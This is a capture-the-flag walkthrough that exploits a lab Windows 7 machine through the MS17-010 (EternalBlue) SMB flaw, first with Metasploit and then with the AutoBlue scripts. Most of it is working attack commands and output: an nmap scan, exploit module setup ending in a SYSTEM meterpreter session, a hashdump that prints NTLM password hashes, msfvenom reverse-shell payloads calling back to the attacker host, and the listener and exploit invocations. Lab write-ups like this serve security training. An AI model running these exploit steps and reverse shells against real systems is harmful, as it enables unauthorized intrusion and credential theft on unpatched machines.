

# BLUE-CTF

In this walkthrough we are going to exploit the blue windows machine automated and manually 



here are the ip address of our both attacker and target maching

we will start with the nmap scan of our target 

<aside>
💡

┌──(root㉿kali)-[~]
└─# nmap -p- -A -T4 192.168.29.174

Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2025-12-18 08:33 IST
Nmap scan report for 192.168.29.174
Host is up (0.0015s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 08:00:27:2A:95:91 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Server 2008 R2 SP1 or Windows 7 SP1, Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
Network Distance: 1 hop
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled but not required
|*clock-skew: mean: 12h09m58s, deviation: 2h53m12s, median: 10h29m57s
| smb-os-discovery:
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|*  System time: 2025-12-18T08:34:20-05:00
| smb2-time:
|   date: 2025-12-18T13:34:20
|_  start_date: 2025-12-18T13:28:23
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:2a:95:91 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

TRACEROUTE
HOP RTT     ADDRESS
1   1.51 ms 192.168.29.174

OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 83.01 seconds

</aside>

so now we will do some surfing on internet 


So from here we got to know it exploitable at eternal blue we will will automate our digging from metasploit


searching eternal blue on msfconsole


we will try every module one by one 

```bash
msf6 > use 10
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                       Required  Description
   ----                  ---------------                                       --------  -----------
   DBGTRACE              false                                                 yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                    yes       How many times to try to leak transaction
   NAMEDPIPE                                                                   no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named  yes       List of named pipes to check
                         _pipes.txt
   RHOSTS                                                                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                                                                         html
   RPORT                 445                                                   yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                         no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                        no        The service display name
   SERVICE_NAME                                                                no        The service name
   SHARE                 ADMIN$                                                yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                     no        The Windows domain to use for authentication
   SMBPass                                                                     no        The password for the specified username
   SMBUser                                                                     no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.29.219   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

```

Now we will set the values we re required 

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set rhost 192.168.29.174
rhost => 192.168.29.174
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                       Required  Description
   ----                  ---------------                                       --------  -----------
   DBGTRACE              false                                                 yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                    yes       How many times to try to leak transaction
   NAMEDPIPE                                                                   no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named  yes       List of named pipes to check
                         _pipes.txt
   RHOSTS                192.168.29.174                                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                                                                         html
   RPORT                 445                                                   yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                         no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                        no        The service display name
   SERVICE_NAME                                                                no        The service name
   SHARE                 ADMIN$                                                yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                     no        The Windows domain to use for authentication
   SMBPass                                                                     no        The password for the specified username
   SMBUser                                                                     no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.29.219   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_psexec) > set smbpass ""
smbpass => 
msf6 exploit(windows/smb/ms17_010_psexec) > set smbuser ""
smbuser => 
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                       Required  Description
   ----                  ---------------                                       --------  -----------
   DBGTRACE              false                                                 yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                    yes       How many times to try to leak transaction
   NAMEDPIPE                                                                   no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named  yes       List of named pipes to check
                         _pipes.txt
   RHOSTS                192.168.29.174                                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                                                                         html
   RPORT                 445                                                   yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                         no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                        no        The service display name
   SERVICE_NAME                                                                no        The service name
   SHARE                 ADMIN$                                                yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                     no        The Windows domain to use for authentication
   SMBPass                                                                     no        The password for the specified username
   SMBUser                                                                     no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.29.219   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

```

Checking the machine in vulnerable with this module 

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > check
[*] 192.168.29.174:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.29.174:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 192.168.29.174:445    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.29.174:445 - The target is vulnerable.
```

So as you can see it is vulnerable lets run the exploit

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > run
[*] Started reverse TCP handler on 192.168.29.219:4444 
[*] 192.168.29.174:445 - Target OS: Windows 7 Ultimate 7601 Service Pack 1
[*] 192.168.29.174:445 - Built a write-what-where primitive...
[+] 192.168.29.174:445 - Overwrite complete... SYSTEM session obtained!
[*] 192.168.29.174:445 - Selecting PowerShell target
[*] 192.168.29.174:445 - Executing the payload...
[+] 192.168.29.174:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 192.168.29.174
[*] Meterpreter session 1 opened (192.168.29.219:4444 -> 192.168.29.174:49159) at 2025-12-18 08:47:53 +0530

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
meterpreter > sysinfo
Computer        : WIN-845Q99OO4PP
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 

```

## Now Lets Exploit this Machine Manually

Now we will search for the exploit online on google for github 


So we have this autoblue exploit 


Now we will clone this github into our system 


As we have cloned this github we will run this exploit from the manual that is given with the github repo 

[https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

Now lets compile the shellcode 

```bash
──(root㉿kali)-[~/AutoBlue-MS17-010]
└─# cd shellcode        
                                                                                                                                                                                             
┌──(root㉿kali)-[~/AutoBlue-MS17-010/shellcode]
└─# ./shell_prep.sh   
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
192.168.29.219
LPORT you want x64 to listen on:
9999
LPORT you want x86 to listen on:
2222
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=192.168.29.219 LPORT=9999
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=192.168.29.219 LPORT=2222
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE

```

Now Lets set the listener 

```bash
──(root㉿kali)-[~/AutoBlue-MS17-010/shellcode]
└─# cd .. 
┌──(root㉿kali)-[~/AutoBlue-MS17-010]
└─# ls
eternalblue_exploit10.py  eternalblue_exploit7.py  eternalblue_exploit8.py  eternal_checker.py  LICENSE  listener_prep.sh  mysmb.py  README.md  requirements.txt  shellcode  zzz_exploit.py
                                                                                                                                                                                             
┌──(root㉿kali)-[~/AutoBlue-MS17-010]
└─# ./listener_prep.sh 
  __
  /,-
  ||)
  \\_, )
   `--'
Eternal Blue Metasploit Listener

LHOST for reverse connection:
192.168.29.219
LPORT for x64 reverse connection:
9999
LPORT for x86 reverse connection:
2222
Enter 0 for meterpreter shell or 1 for regular cmd shell:
1
Type 0 if this is a staged payload or 1 if it is for a stageless payload: 1
Starting listener (stageless)...
Starting postgresql (via systemctl): postgresql.service.
Metasploit tip: Start commands with a space to avoid saving them to history
                                                  

 ______________________________________________________________________________
|                                                                              |
|                   METASPLOIT CYBER MISSILE COMMAND V5                        |
|______________________________________________________________________________|
      \                                  /                      /
       \     .                          /                      /            x
        \                              /                      /
         \                            /          +           /
          \            +             /                      /
           *                        /                      /
                                   /      .               /
    X                             /                      /            X
                                 /                     ###
                                /                     # % #
                               /                       ###
                      .       /
     .                       /      .            *           .
                            /
                           *
                  +                       *

                                       ^
####      __     __     __          #######         __     __     __        ####
####    /    \ /    \ /    \      ###########     /    \ /    \ /    \      ####
################################################################################
################################################################################
# WAVE 5 ######## SCORE 31337 ################################## HIGH FFFFFFFF #
################################################################################
                                                           https://metasploit.com

       =[ metasploit v6.4.69-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 432 post       ]
+ -- --=[ 1672 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Processing config.rc for ERB directives.
resource (config.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (config.rc)> set PAYLOAD windows/x64/shell_reverse_tcp
PAYLOAD => windows/x64/shell_reverse_tcp
resource (config.rc)> set LHOST 192.168.29.219
LHOST => 192.168.29.219
resource (config.rc)> set LPORT 9999
LPORT => 9999
resource (config.rc)> set ExitOnSession false
ExitOnSession => false
resource (config.rc)> set EXITFUNC thread
EXITFUNC => thread
resource (config.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
resource (config.rc)> set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
resource (config.rc)> set LPORT 2222
LPORT => 2222
resource (config.rc)> exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.29.219:2222 
[*] Started reverse TCP handler on 192.168.29.219:9999 
msf6 exploit(multi/handler) > 

```

as we have successfully connect the both shellcode and listener now we will Run the exploit.

First we are running the checker 

```bash
┌──(root㉿kali)-[~/AutoBlue-MS17-010]
└─# python eternal_checker.py 192.168.29.174
/root/AutoBlue-MS17-010/mysmb.py:137: SyntaxWarning: invalid escape sequence '\C'
  pipes = [ 'netlogon', 'lsarpc', 'samr', 'browser', 'spoolss', 'atsvc', 'DAV RPC SERVICE', 'epmapper', 'eventlog', 'InitShutdown', 'keysvc', 'lsass', 'LSM_API_service', 'ntsvcs', 'plugplay', 'protected_storage', 'router', 'SapiServerPipeS-1-5-5-0-70123', 'scerpc', 'srvsvc', 'tapsrv', 'trkwks', 'W32TIME_ALT', 'wkssvc','PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER', 'db2remotecmd' ]
[*] Target OS: Windows 7 Ultimate 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[+] Found pipe 'netlogon'
[+] Found pipe 'lsarpc'
[+] Found pipe 'samr'
[+] Found pipe 'lsass'
[+] Found pipe 'protected_storage'
[*] Done
                                
```

So we got the checker Now lets exploit

```bash
eternalblue_exploit7.py 192.168.29.174 shellcode/sc_all.bin
	// ALL OF THESE INFORMATION IS GIVEN IN THE GITHUB README SECTION 
```


As you can see we have taken down the system